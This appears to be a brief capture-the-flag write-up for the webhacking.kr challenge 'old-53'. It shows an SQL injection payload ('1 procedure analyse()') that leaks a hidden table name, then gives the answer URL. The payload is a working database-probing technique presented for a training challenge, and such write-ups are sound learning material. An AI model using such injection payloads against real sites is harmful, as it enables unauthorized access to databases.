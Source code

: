 ```yaml
---
layout: default
title: old-53
---
```


# Webhacking old-53 Solution

this is another sql injection problem.

here we inject this payload first in val `1 procedure analyse()`, then we can see this result:
`webhacking.chall53_755fdeb36d873dfdeb2b34487d50a805.a`

so, we now know the secret table, which is: `chall53_755fdeb36d873dfdeb2b34487d50a805`

```
https://webhacking.kr/challenge/web-28/?answer=chall53_755fdeb36d873dfdeb2b34487d50a805
```
